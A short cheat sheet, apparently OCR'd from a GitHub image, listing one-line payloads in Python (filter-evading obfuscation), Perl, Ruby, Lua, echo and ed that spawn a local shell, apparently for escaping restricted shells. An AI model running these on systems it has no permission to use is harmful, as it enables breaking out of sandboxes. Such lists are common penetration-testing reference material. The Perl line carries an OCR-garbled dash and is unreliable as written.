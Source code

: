 - - -
### Python : 

```python
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('/bin/bash')
```

### Echo : 

```sh
echo os.system('/bin/bash')
```

### Perl : 

```perl
perl —e 'exec "/bin/sh";'
exec "/bin/sh";    
```

### Ruby : 

```ruby
exec "/bin/sh" 
```

### LUA : 

```lua
os.execute('/bin/sh') 
```

#### Is ed present on the target machines? 

```sh
ed
!sh
```

- - -
